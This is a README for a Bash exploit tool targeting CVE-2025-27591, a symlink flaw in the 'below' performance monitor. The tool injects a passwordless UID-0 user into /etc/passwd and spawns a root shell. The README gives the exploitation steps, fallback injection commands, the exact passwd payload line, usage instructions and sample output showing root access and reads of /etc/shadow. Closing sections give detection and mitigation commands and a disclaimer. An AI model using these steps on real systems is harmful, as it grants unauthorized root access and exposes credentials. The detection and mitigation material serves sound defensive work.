

[](https://www.buymeacoffee.com/0xDTC)

# CVE-2025-27591 Exploit - Below Logger Symlink Attack

A Bash-based privilege escalation exploit targeting the `below` system performance monitoring tool. This refurbished exploit leverages a symlink vulnerability in the logging mechanism to inject a root user into `/etc/passwd`, achieving full root access.

# Credits
Discovered and reported by Matthias Gerstner @ SUSE - Security Advisory

## Vulnerability Details

- **CVE**: CVE-2025-27591
- **Affected Component**: `/usr/bin/below` (Facebook's system performance monitor)
- **Affected Versions**: below versions with world-writable log directories
- **Vulnerability Type**: Symlink Attack / Privilege Escalation
- **Attack Vector**: `/var/log/below/error_root.log` → `/etc/passwd`
- **CVSS Score**: High (Privilege Escalation to Root)

## Overview

The `below` monitoring tool logs errors to `/var/log/below/error_root.log` when running with elevated privileges. If the log directory is world-writable, an attacker can:

1. Create a symbolic link from `error_root.log` to `/etc/passwd`
2. Trigger the `below record` command to write error messages to the symlink
3. Manually inject a malicious user entry with UID=0 (root privileges)
4. Spawn a root shell using the newly created user

This exploit automates the entire process with intelligent fallback mechanisms to handle various system configurations.

## Exploit Flow Diagram



## Technical Details

### Exploitation Steps

1. **Pre-Check Phase**
   - Verify `/var/log/below` directory exists
   - Check if directory has world-writable permissions (o+w)
   - Test symlink creation capability

2. **Setup Phase**
   - Remove any existing `error_root.log` file
   - Create symbolic link: `/var/log/below/error_root.log` → `/etc/passwd`
   - Verify symlink points to correct target

3. **Injection Phase (Primary Method)**
   - Execute `sudo below record` in background
   - Allow process to run for 3 seconds to trigger error logging
   - Kill the process to prevent continuous logging
   - Check if error messages corrupted `/etc/passwd` in a useful way

4. **Injection Phase (Fallback Methods)**
   - **Method 1**: Direct append via symlink (`echo >> symlink`)
   - **Method 2**: Using sudo with tee (`sudo tee -a`)

5. **Shell Spawn Phase**
   - Verify malicious user exists in `/etc/passwd`
   - Disable cleanup traps to prevent removal
   - Execute `su <username>` to obtain root shell

### Payload Structure

The injected `/etc/passwd` entry follows this format:

```
username::0:0:username:/root:/bin/bash
```

**Field Breakdown:**
- `username`: User-provided username (default: "0xdtc")
- `::`: Empty password field (no password required)
- `0:0`: UID=0, GID=0 (root privileges)
- `username`: GECOS field (user description)
- `/root`: Home directory
- `/bin/bash`: Login shell

## Prerequisites

- Target system running vulnerable `below` binary
- `/var/log/below` directory must be world-writable
- User must have `sudo` access to execute `below record`
- Bash shell environment

## Usage

### Basic Execution

```bash
# Make script executable
chmod +x CVE-2025-27591

# Run the exploit
./CVE-2025-27591
```

### Interactive Prompts

```bash
========================================
  CVE-2025-27591 Exploit (Bash)
========================================

[*] This exploit will create a new root user in /etc/passwd
[?] Enter username for the new root user (default: 0xdtc): myuser
[+] Using username: myuser
```

### Example Output

```bash
0xdtc@kali:/tmp$ ./CVE-2025-27591
========================================
  CVE-2025-27591 Exploit (Bash)
========================================

[*] This exploit will create a new root user in /etc/passwd
[?] Enter username for the new root user (default: 0xdtc): 0xdtc
[+] Using username: 0xdtc

[*] Checking for CVE-2025-27591 vulnerability
[+] /var/log/below is world-writable
[*] Testing symlink creation
[+] Symlink test successful
[+] Target is vulnerable

[*] Starting exploitation
[+] Wrote payload to /tmp/exploit_payload
[*] Creating symlink: /var/log/below/error_root.log -> /etc/passwd
[+] Symlink created
[*] Executing 'sudo below record' to trigger logging
[*] Started 'below record' with PID: 12345
[*] Checking if payload was written
[*] Attempting manual injection
[*] Appending payload to /etc/passwd via symlink
[+] Payload appended
[+] Exploitation completed! Payload is in /etc/passwd
[*] Spawning root shell via 'su 0xdtc'
[*] Password should be empty, just press Enter

root@kali:/tmp# whoami
root
```

## Features

### Intelligent Blocker Handling

The script includes multiple fallback mechanisms to handle various system configurations:

1. **Existing File Handling**
   - Automatically detects and removes existing log files
   - Handles both regular files and existing symlinks
   - Validates symlink target before proceeding

2. **Multiple Injection Methods**
   - Primary: Trigger via `below record` error logging
   - Fallback 1: Direct append to symlink
   - Fallback 2: Privileged write using `sudo tee`

3. **Process Management**
   - Automatically kills hanging `below` processes
   - Prevents resource exhaustion
   - Handles process cleanup on failure

4. **Re-run Detection**
   - Checks if payload already exists in `/etc/passwd`
   - Skips exploitation if user already created
   - Directly spawns shell on re-run

### Code Quality Features

- **Comprehensive Comments**: Every function and critical step documented
- **Section Headers**: Code organized into logical sections
- **Error Handling**: Proper error checking and user feedback
- **Clean Exit**: Trap handlers for graceful cleanup on failure
- **Minimal Dependencies**: Pure Bash with standard Unix tools

## File Structure

```sh
.
├── CVE-2025-27591           # Main exploitation script
├── README.md           # This documentation
└── /tmp/exploit_payload # Temporary payload file (created at runtime)
```

## Verification

After successful exploitation, verify root access:

```sh
# Check current user
root@target:/tmp# whoami
root

# Check user ID and groups
root@target:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

# Verify user in /etc/passwd
root@target:/tmp# grep "^0xdtc:" /etc/passwd
0xdtc::0:0:0xdtc:/root:/bin/bash

# Read root-only files
root@target:/tmp# cat /etc/shadow
[... shadow file contents ...]
```

## Cleanup

If you need to remove the malicious user after testing:

```bash
# Remove the injected user from /etc/passwd
sudo sed -i '/^username:/d' /etc/passwd

# Remove any leftover symlinks
rm -f /var/log/below/error_root.log
```

Replace `username` with the actual username you used during exploitation.

## Detection and Mitigation

### Detection Methods

1. **File Integrity Monitoring**
   ```bash
   # Monitor /etc/passwd for unauthorized changes
   aide --check
   ```

2. **Symlink Detection**
   ```bash
   # Check for suspicious symlinks in log directories
   find /var/log -type l -ls
   ```

3. **Audit Logs**
   ```bash
   # Check for suspicious sudo usage
   grep "below record" /var/log/auth.log
   ```

### Mitigation Strategies

1. **Fix Directory Permissions**
   ```bash
   # Remove world-writable permission from log directory
   sudo chmod 755 /var/log/below
   ```

2. **AppArmor/SELinux Policies**
   - Implement mandatory access controls
   - Restrict `below` binary file write locations

3. **Update Below**
   - Apply security patches from Facebook/Meta
   - Use package manager updates

4. **Monitor /etc/passwd**
   - Set up file integrity monitoring (AIDE, Tripwire)
   - Alert on UID=0 user additions

## Legal Disclaimer

**This exploit is intended for educational purposes and authorized penetration testing only.**

Unauthorized access to computer systems is illegal. Only use this tool on systems where you have explicit permission to perform security testing. The author(s) assume no liability for misuse of this tool.

By using this exploit, you acknowledge that you:
- Have proper authorization to test the target system
- Understand applicable laws and regulations
- Accept full responsibility for your actions

---

**Repository**: https://github.com/0xDTC/
**Author**: Divine Clown (0xDTC)
**License**: Educational Use Only
**Last Updated**: 2025-11-13
